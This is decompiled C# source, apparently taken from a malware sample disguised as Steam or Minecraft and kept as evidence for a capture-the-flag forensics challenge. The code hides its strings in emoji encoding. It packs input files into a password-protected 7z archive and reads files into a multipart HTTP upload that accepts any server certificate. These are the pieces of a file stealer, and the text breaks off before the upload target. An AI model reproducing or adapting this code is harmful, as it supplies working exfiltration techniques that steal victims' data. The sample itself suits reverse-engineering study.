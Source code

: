 ```
// Decompiled with JetBrains decompiler
// Type: Maicraft.cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk
// Assembly: minecraft, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
// MVID: 58866215-B729-47A3-A97A-6548365F6EEC
// Assembly location: minecraft.dll inside C:\Users\caoba\Downloads\HolaCTF\evidenceeeee\steam.exe)

using minecraft;
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Globalization;
using System.IO;
using System.Linq;
using System.Net.Http;
using System.Security.Cryptography;
using System.Text;
using System.Threading;
using System.Threading.Tasks;

#nullable disable
namespace Maicraft;

internal class cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk
{
  private static Dictionary<string, string> pdZuVvKNPFSscmrJcOBSJjLEW;

  private static void lzzmjArGgUUExMsxcUOqmdCCBrduwURYMq(
    string outputArchive,
    params string[] inputFiles)
  {
    string str = string.Join(cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("\uD83D\uDC9B\uD83D\uDC3D\uD83D\uDD0C\uD83D\uDD0C"), Enumerable.Select<string, string>((IEnumerable<string>) inputFiles, (Func<string, string>) (f => $"\"{f}\"")));
    Process.Start(cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("\uD83C\uDF75\uD83C\uDF67\uD83C\uDF87\uD83D\uDCD3\uD83D\uDD1C\uD83C\uDE51\uD83C\uDD7F️\uD83D\uDCBF⏩⚽\uD83C\uDD7F️\uD83D\uDE8F\uD83D\uDD01\uD83D\uDEB9\uD83C\uDF0A\uD83D\uDC7B9️⃣ℹ️✒️\uD83D\uDC5E\uD83D\uDCD3\uD83D\uDE82\uD83D\uDC8F⚽\uD83D\uDC9C\uD83D\uDCAF\uD83C\uDF87\uD83C\uDF87\uD83D\uDCD3\uD83D\uDD0E\uD83D\uDC8F⚽\uD83D\uDC58\uD83D\uDC8B⛵\uD83D\uDC5E\uD83D\uDC58\uD83D\uDC7B\uD83D\uDD1C\uD83D\uDD0C"), $"a -t7z -mx5 -parameter-none \"{outputArchive}\" {str}")?.WaitForExit();
  }

  private static async Task hVQylKhewOSgWxHuxbNcBpLUQmdgVGemoKmKEvbqat(string filePath)
  {
    HttpClient JToIYNnsPTVBGdtYorgktWiMEPfUEkMGMChTBrH;
    using (MultipartFormDataContent YIYcePSZHvUeSMhUzZwoVHmOV = new MultipartFormDataContent())
    {
      YIYcePSZHvUeSMhUzZwoVHmOV.Add((HttpContent) new ByteArrayContent(File.ReadAllBytes(filePath)), cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("⏩\uD83D\uDD38\uD83D\uDC5E\uD83C\uDFC8⏩\uD83C\uDF75\uD83D\uDD0C\uD83D\uDD0C"), Path.GetFileName(filePath));
      JToIYNnsPTVBGdtYorgktWiMEPfUEkMGMChTBrH = new HttpClient((HttpMessageHandler) new HttpClientHandler()
      {
        ServerCertificateCustomValidationCallback = HttpClientHandler.DangerousAcceptAnyServerCertificateValidator
      });
      try
      {
```
